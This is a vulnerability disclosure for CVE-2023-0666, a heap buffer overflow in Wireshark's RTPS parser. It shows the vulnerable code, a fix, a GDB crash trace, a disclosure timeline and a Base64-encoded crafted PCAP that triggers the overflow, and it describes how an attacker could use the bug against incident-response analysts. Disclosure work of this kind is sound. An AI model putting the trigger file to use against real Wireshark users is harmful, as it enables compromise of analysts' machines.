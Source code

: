 ```yaml
---
title: CVE-2023-0666 🤘
aliases: ["/cves/CVE-2023-0666.html"]
---
```


# CVE-2023-0666: Wireshark RTPS Parsing Buffer Overflow

[AHA!] has discovered an issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Monday, June 5, 2023. [CVE-2023-0666] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to failure in validating the length provided by an attacker-crafted [RTPS](https://wiki.wireshark.org/Protocols/rtps) packet, Wireshark version 4.0.5 and prior, by default, is susceptible to a heap-based buffer overflow, and possibly code execution in the context of the process running Wireshark. [CVE-2023-0666] appears to be an instance of [CWE-122].

# Technical Details

The `rtps_util_add_type_library_type` function contains a call to `g_strlcpy` that, without validation, uses a length supplied by the packet data that can result in a heap-based buffer overflow.

Snippet of the vulnerable code:

```
  static gint rtps_util_add_type_library_type(proto_tree *tree,
          tvbuff_t * tvb, gint offset, const guint encoding, dissection_info *info) {
    proto_tree * annotation_tree;
    guint32 member_id = 0, member_length = 0, long_number, i;
    gint offset_tmp;
    guint16 short_number;
    gchar * name = NULL;
    rtps_util_dissect_parameter_header(tvb, &offset, encoding, &member_id, &member_length);
    offset_tmp = offset;
/* ... */
    long_number = tvb_get_guint32(tvb, offset_tmp, encoding);
    name = tvb_get_string_enc(wmem_packet_scope(), tvb, offset_tmp+4, long_number, ENC_ASCII);
    if (info)
      (void) g_strlcpy(info->member_name, name, long_number);
```

The `dissection_info` struct is defined as:

```
  typedef struct _dissection_info {
    guint64 type_id;
    gint member_kind;
    guint64 base_type_id;
    guint32 member_length;
    gchar member_name[MAX_MEMBER_NAME];

    RTICdrTypeObjectExtensibility extensibility;

    gint32 bound;
    guint32 num_elements;
    dissection_element* elements;

  } dissection_info;
```

and `MAX_MEMBER_NAME` is defined as:

```
  #define MAX_MEMBER_NAME                 (256)
```

The overflow occurs when `long_number` is greater than 256 bytes however it should be noted that this does require that many bytes to have been sent.

`g_strlcpy` expects the size of the destination buffer as the last argument so this can be remediated by using `sizeof(info->member_name)` instead of `long_number` in the `g_strlcpy` call. Additionally, the return value should be checked because if it is greater than `sizeof(info->member_name)`, then truncation occurred.

Reproduction: Run `tshark -r rtps_trigger.pcap` or open `rtps_trigger.pcap` in Wireshark. Note that an ASAN build is not required due to the way the PCAP was crafted.

Full output from running under GDB:

```
(gdb) run -r ~/rtps_trigger.pcap
Starting program: /usr/bin/tshark -r ~/rtps_trigger.pcap

This GDB supports auto-downloading debuginfo from the following URLs:
https://debuginfod.ubuntu.com
Enable debuginfod for this session? (y or [n]) n
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[New Thread 0x7fffebcdd6c0 (LWP 125835)]
[Thread 0x7fffebcdd6c0 (LWP 125835) exited]
[New Thread 0x7fffebcdd6c0 (LWP 125836)]
[Thread 0x7fffebcdd6c0 (LWP 125836) exited]
    1   0.000000 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [SYN] Seq=0 Win=8192 Len=0
    2   0.000363 192.168.0.214 → 192.168.0.231 TCP 54 9187 → 2603 [SYN, ACK] Seq=0 Ack=0 Win=8192 Len=0
    3   0.000611 192.168.0.231 → 192.168.0.214 TCP 54 2603 → 9187 [ACK] Seq=1 Ack=0 Win=8192 Len=0
    4   0.000853 192.168.0.231 → 192.168.0.214 RTPS 1454 DATA_deprecated[Malformed Packet]

Thread 1 "tshark" received signal SIGSEGV, Segmentation fault.
wmem_block_split_free_chunk (allocator=0x5555555bf660, chunk=0x7fffe9f44fb0, size=<optimized out>) at ./wsutil/wmem/wmem_allocator_block.c:614
614     ./wsutil/wmem/wmem_allocator_block.c: No such file or directory.
(gdb) x/5i $pc
=> 0x7ffff088db1b <wmem_block_split_free_chunk+267>:    mov    QWORD PTR [rsi+0x10],rax
   0x7ffff088db1f <wmem_block_split_free_chunk+271>:    mov    QWORD PTR [r8+0x8],rax
   0x7ffff088db23 <wmem_block_split_free_chunk+275>:    jmp    0x7ffff088da9b <wmem_block_split_free_chunk+139>
   0x7ffff088db28 <wmem_block_split_free_chunk+280>:    nop    DWORD PTR [rax+rax*1+0x0]
   0x7ffff088db30 <wmem_block_split_free_chunk+288>:    mov    rax,QWORD PTR [rcx+0x10]
(gdb) p (char[]) $rsi
$1 = "AHA!AHA!"
```

A Base64 encoded blob of an example PCAP that can trigger the issue is below.

[expand]

```
1MOyoQIABAAAAAAAAAAAAP//AAABAAAAW+1JZDkZDgA2AAAANgAAAHRGoNgQS3RGo
CvQ6AgARQAAKAABAABABvfBwKgA58CoANYKKyPjAAC1rAAAAABQAiAAKRoAAFvtSW
SkGg4ANgAAADYAAAB0RqAr0Oh0RqDYEEsIAEUAACgAAQAAQAb3wcCoANbAqADnI+M
KKwAAAAEAALWsUBIgACkJAABb7UlknBsOADYAAAA2AAAAdEag2BBLdEagK9DoCABF
AAAoAAEAAEAG98HAqADnwKgA1gorI+MAALWtAAAAAVAQIAApCgAAW+1JZI4cDgCuB
QAArgUAAHRGoNgQS3RGoCvQ6AgARQAFoAABAABABvJJwKgA58CoANYKKyPjAAC1rQ
AAAAJQGCAA7yIAAAAACJBSVFBTAgABAQAAAAAAAQkBEjRWeAIbeABSZWFkV3JpdJh
2VDIQ/ty6EjRWeN6tur5FZ4kKuqqqrRD+3LpyAEwAAQAAAAYAAABGaQABDgAAAAIA
AAARIjNEVWZ3iJmqu8zd7v8WFxgZICEiIyQBAgMEBQYHCAkQERITFBUWFxgZICEiI
yQDAAAARXhwAAEAAABBYTBBYTFBYTJBYTNBYTRBYTVBYTZBYTdBYThBYTlBYjBBYj
FBYjJBYjNBYjRBYjVBYjZBYjdBYjhBYjlBYzBBYzFBYzJBYzNBYzRBYzVBYzZBYzd
BYzhBYzlBZDBBZDFBZDJBZDNBZDRBZDVBZDZBZDdBZDhBZDlBZTBBZTFBZTJBZTNB
ZTRBZTVBZTZBZTdBZThBZTlBZjBBZjFBZjJBZjNBZjRBZjVBZjZBZjdBZjhBZjlBZ
zBBZzFBZzJBZzNBZzRBZzVBZzZBZzdBZzhBZzlBaAAEAABBaDJBaDNBaDRBaDVBaD
ZBaDdBaDhBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJ
BajNBajRBajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhB
azlBbDBBbDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBb
TVBbTZBbTdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbz
FBbzJBbzNBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDd
BcDhBcDlBcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhB
ITRBcjVBcjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBd
DBBdDFBdDJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdT
ZBdTdBdThBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJ
BdzNBdzRBdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhB
eDlBeTBBeTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBe
jVBejZBejdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYj
FCYjJCYjNCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzd
CYzhCYzlCZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNC
ZTRCZTVCZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZ
zBCZzFCZzJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaD
ZCaDdCaDhCaDlCaTBCQWEwQWExQWEyQWEzQWE0QWE1QWE2QWE3QWE4QWE5QWIwQWI
xQWIyQWIzQWI0QWI1QWI2QWI3QWI4QWI5QWMwQWMxQWMyQWMzQWM0QWM1QWM2QWM3
QWM4QWM5QWQwQWQxQWQyQWQzQWQ0QWQ1QWQ2QWQ3QWQ4QWQ5QWUwQWUxQWUyQWUzQ
WU0QWU1QWU2QWU3QWU4QWU5QWYwQWYxQWYyQWYzQWY0QWY1QWY2QWY3QWY4QWY5QW
cwQWcxQWcyQWczQWc0QWc1QWc2QWc3QWc4QWc5QWgwQWgxQWgyQWgzQWg0QWg1W+1
JZBUeDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvfBwKgA1sCoAOcj
4worAAAAAgAAuyVQECAAI5EAAFvtSWQAHw4AUgMAAFIDAAB0RqDYEEt0RqAr0OgIA
EUAA0QAAQAAQAb0pcCoAOfAqADWCisj4wAAuyUAAAACUBggAG1hAABBaDZBaDdBaD
hBaDlBaTBBaTFBaTJBaTNBaTRBaTVBaTZBaTdBaThBaTlBajBBajFBajJBajNBajR
BajVBajZBajdBajhBajlBazBBazFBazJBazNBazRBazVBazZBazdBazhBazlBbDBB
bDFBbDJBbDNBbDRBbDVBbDZBbDdBbDhBbDlBbTBBbTFBbTJBbTNBbTRBbTVBbTZBb
TdBbThBbTlBbjBBbjFBbjJBbjNBbjRBbjVBbjZBbjdBbjhBbjlBbzBBbzFBbzJBbz
NBbzRBbzVBbzZBbzdBbzhBbzlBcDBBcDFBcDJBcDNBcDRBcDVBcDZBcDdBcDhBcDl
BcTBBcTFBcTJBcTNBcTRBcTVBcTZBcTdBcThBcTlBcjBBcjFBSEEhQUhBITRBcjVB
cjZBcjdBcjhBcjlBczBBczFBczJBczNBczRBczVBczZBczdBczhBczlBdDBBdDFBd
DJBdDNBdDRBdDVBdDZBdDdBdDhBdDlBdTBBdTFBdTJBdTNBdTRBdTVBdTZBdTdBdT
hBdTlBdjBBdjFBdjJBdjNBdjRBdjVBdjZBdjdBdjhBdjlBdzBBdzFBdzJBdzNBdzR
BdzVBdzZBdzdBdzhBdzlBeDBBeDFBeDJBeDNBeDRBeDVBeDZBeDdBeDhBeDlBeTBB
eTFBeTJBeTNBeTRBeTVBeTZBeTdBeThBeTlBejBBejFBejJBejNBejRBejVBejZBe
jdBejhBejlCYTBCYTFCYTJCYTNCYTRCYTVCYTZCYTdCYThCYTlCYjBCYjFCYjJCYj
NCYjRCYjVCYjZCYjdCYjhCYjlCYzBCYzFCYzJCYzNCYzRCYzVCYzZCYzdCYzhCYzl
CZDBCZDFCZDJCZDNCZDRCZDVCZDZCZDdCZDhCZDlCZTBCZTFCZTJCZTNCZTRCZTVC
ZTZCZTdCZThCZTlCZjBCZjFCZjJCZjNCZjRCZjVCZjZCZjdCZjhCZjlCZzBCZzFCZ
zJCZzNCZzRCZzVCZzZCZzdCZzhCZzlCaDBCaDFCaDJCaDNCaDRCaDVCaDZCaDdCaD
hCaDlCaTBCW+1JZHggDgA2AAAANgAAAHRGoCvQ6HRGoNgQSwgARQAAKAABAABABvf
BwKgA1sCoAOcj4worAAAAAgAAvkFQECAAIHUAAA==
```

[/expand]

<br/>

# Attacker Value

By providing this poisoned RTPS packet, an attacker could hijack the user account of an analyst running Wireshark. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. So, it would be trivial for an attacker to intentionally "get caught" in order to provide their malicious packet to an incident response analyst. Once compromised, this can provide an attacker a unique, privileged position in the targeted network.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [Austin Hackers Anonymous!](https://infosec.exchange/@austinhackers)

# Timeline

Note, while we expected to publicly disclose this issue in early July (60 days after disclosure to The Wireshark Foundation), the vendor publicized the issue on May 22nd in issue [19085].

* 2023-04-27 (Wed): Initial findings presented at the regularly scheduled [meeting] 0x00c7.
* 2023-05-17 (Wed): PoC validated and analysis completed for disclosure.
* 2023-05-18 (Thu): Disclosed to the vendor via email at security@wireshark.org.
* 2023-05-18 (Thu): Vendor acknowledged, and opened issue [19085] to address.
* 2023-05-21 (Sun): Patch [merged](https://gitlab.com/wireshark/wireshark/-/merge_requests/10687) to the release-4.0 branch of Wireshark.
* 2023-05-22 (Mon): Issue [19085] made public by the vendor.
* 2023-05-24 (Wed): [CVE-2023-0666] fixed in Wireshark version [4.0.6](https://gitlab.com/wireshark/wireshark/-/commit/ac2f5a01286addcb34ffb204e1eeb5fd8ccdb85c)
* 2023-06-06 (Tue): Public disclosure of [CVE-2023-0666]

----

[AHA!]: https://takeonme.org
[disclosure policy]: https://takeonme.org/cve.html
[CVE-2023-0666]: https://takeonme.org/cves/CVE-2023-0666.html
[CWE-122]: https://cwe.mitre.org/data/definitions/122.html
[meeting]: https://takeonme.org/meetings.html
[19085]: https://gitlab.com/wireshark/wireshark/-/issues/19085
[Wireshark]: https://www.wireshark.org/download.html
